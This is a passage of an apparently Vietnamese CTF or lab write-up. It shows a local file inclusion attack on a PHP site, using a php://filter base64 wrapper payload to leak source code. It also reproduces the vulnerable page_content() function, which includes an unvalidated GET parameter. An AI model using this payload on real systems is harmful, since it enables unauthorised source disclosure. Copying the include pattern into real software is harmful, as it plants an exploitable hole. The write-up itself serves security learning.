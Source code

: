 Mình thử sử dụng data wrapper để xem nội dung của file functions

```
?page=php://filter/convert.base64-encode/resource=includes/functions
```

![image-20230308143003429](./assets/image-20230308143003429.png)

Không có gì hot ngoài việc mình đoán đúng code đoạn include file php

```php
<?php

...
    
function page_content()
{
    $page = isset($_GET['page']) ? $_GET['page'] : 'home';
    $path = $page . '.php';
    include($path);
}

/**
 * Starts everything and displays the template.
 */
function init()
{
    require config('template_path') . '/template.php';
}

```

Nên mình sẽ quay qua kiểm tra xem các file đã biết như

```
includes/config
content/home
content/about-us
content/products
content/contact
```
